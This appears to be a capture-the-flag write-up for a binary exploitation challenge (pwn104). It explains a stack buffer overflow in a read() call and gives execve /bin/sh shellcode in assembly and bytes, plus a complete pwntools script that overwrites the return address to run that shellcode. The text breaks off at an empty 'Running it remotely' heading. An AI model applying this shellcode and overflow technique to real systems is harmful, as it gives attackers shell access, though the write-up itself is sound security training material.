








# Challenge 4



### Vulnerability:
the `read()` call near the end is vulnerable

**Manual:**



The code is basically calling
`read(stdin, *buf, 200);` - `buf` here being 80 characters.
So we attempt to read up to 200 bytes from *stdin* into the buffer, starting at `buf`
Completely overwriting our buffer and anything past it!

Testing buffer overflow size we end up at 80 (as expected from the code above giving us `0x50` (80))





## The Exploit
So we have our opening message, hinting they want us to run our shellcode ("executable powers"), the address you're seeing is where our input starts, the start of our buffer in memory.



As seen here in the code, `[buf]` being the buffer for our input of size `0x50` (80)



So we'll write our shellcode to our buffer, then overflow the buffer to overwrite our **RBP** and more importantly, our **RIP**'s return address on the stack, and replace that with the address pointing to our shellcode.
So our full exploit would be: `[Shellcode + fill leftover bufferspace + new RBP + new RIP]`

For our shellcode I was looking at some publicly available ones and the built in pwn-tools shell code without luck until I came across this one: https://www.exploit-db.com/exploits/46907 -

```assembly
global _start
section .text

_start:
  xor rsi, rsi                ; Set RSI to 0
  push rsi                    ; RSI to stack
  mov rdi, 0x68732f2f6e69622f ; set RDI = "/bin//sh"
  push rdi                    ; Push Value to stack
  push rsp                    ; Push Pointer to value, to stack
  pop rdi                     ; Load pointer to "/bin//sh"
  push 59                     ; Push 59
  pop rax                     ; 59 to RAX ; OPcode for syscall.execve()
  cdq                         ; Copies the sign bit of RAX (0)
  syscall                     ; Sys call ; execve(*rdi, 0, 0)
```

Bytes: 
`\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05`

**CDQ**
The CDQ instruction copies the sign (bit 31) of the value in the EAX (RAX) register into every bit position in the EDX (RDX) register. (more info; https://www.felixcloutier.com/x86/cwd:cdq:cqo )
So because our RAX is currently '59' we get this
```
RAX: 0x000000000000003B
       ^
       |--------------| - Every bit is set to 0
RDX: 0x0000000000000000
```

**Syscall 59**


### Exploit script

```python
from pwn import *
import sys

# Shellcode execve("/bin//sh") ; https://www.exploit-db.com/exploits/46907
shell = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'
shell_size = len(shell)
log.info(f"Shellcode size: {shell_size}")

# Random filler address for RBP
rbp = p64(0xDEADBEEF)

if sys.argv[1] == "local":
    proc = process("./pwn104-1644300377109.pwn104")
else:
    proc = remote(sys.argv[1], int(sys.argv[2]))

# Get Return address
addr = re.search(r'[0][x].*', proc.recvline_regexS('[0][x].*')).group()
log.info(f"Target address: {addr}")
addr = p64(int(addr, 16))

# Finishing Payload, padding shell with NULL-bytes with our 0x50 buffer size
payload = shell.ljust(0x50, b'\x00') + rbp + addr
log.info(f"Payload: {payload}")

# Send payload and go interactive for shell
proc.sendline(payload)
proc.interactive()
```

### Running it remotely:
